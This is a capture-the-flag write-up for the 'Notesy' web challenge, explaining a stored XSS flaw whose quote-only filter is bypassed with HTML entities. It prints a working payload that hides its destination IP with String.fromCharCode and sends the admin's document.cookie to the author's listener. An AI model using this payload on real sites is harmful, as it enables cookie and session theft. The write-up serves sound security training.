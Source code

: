 ```yaml
---
layout: ctf-layout
title: Notesy
permalink: /writeups/web/notesy
comments: false
---
```

<p align="center">
  <img src="https://i.imgflip.com/978447.jpg" title="IOI SaveData" width="90%" />
</p>

##### Difficulty: <b>Hard</b> 

##### Description:
You’ve been hired by a tech company to review their new note-taking app, "Notesy." The app allows users to create and manage notes with a focus on security. Your role is to assess the application for any potential vulnerabilities to ensure user data is well protected.

##### Challenge: 
These web challenges from the Fall Huddle were easier than usual, especially this one. I wouldn’t call it hard at all. It’s a simple stored XSS vulnerability that we exploit to steal the admin's cookie, which contains the flag. Payloads with single or double quotes are blocked, but we can bypass this by HTML encoding the quotes. Another minor issue we encountered was with using fetch(), but we worked around it by using an image request instead.

##### Vulnerable Code:
###### /app.py file:
The is_safe_content() function only checks for single (') and double (") quotes, but this is an insufficient filter, which we are able to bypass.
```python
if re.search(r'[\'"]', decoded_content, re.IGNORECASE):
    return False
```

##### Solution 
When navigating the application, we see that we can create notes and submit reports. The title and content parameters accept user input but only sanitize single and double quotes, making it trivial to get XSS payloads to execute. When we create a note, it is assigned a unique URL on the server. This is where the report feature becomes useful — we can submit these note URLs to the admin by providing the URL with the report. Looking at the source code, we notice that the flag is stored in the admin's cookie. Now, we just need to craft a payload that sends the cookie to our server. While fetch() didn't work, I switched to using an image request instead. This worked when I tested it with my own cookie.
<br>

##### Payload:
```javascript
<img src=x onerror=this.src=String.fromCharCode(104,116,116,112,58,47,47,49,57,50,46,49,54,56,46,49,54,50,46,49,56,51,58,49,50,51,52)+&quot;/?cookie=&quot;+document.cookie>
```
<br>

Finally, I set up a Python server and submitted the note with the XSS payload to the admin. A few seconds later, I received the admin's cookie containing the flag.
##### The Flag: 

<p align="center">
  <img src="https://i.imgflip.com/9785t1.jpg" title="The Flag!!!" width="90%" />
</p>

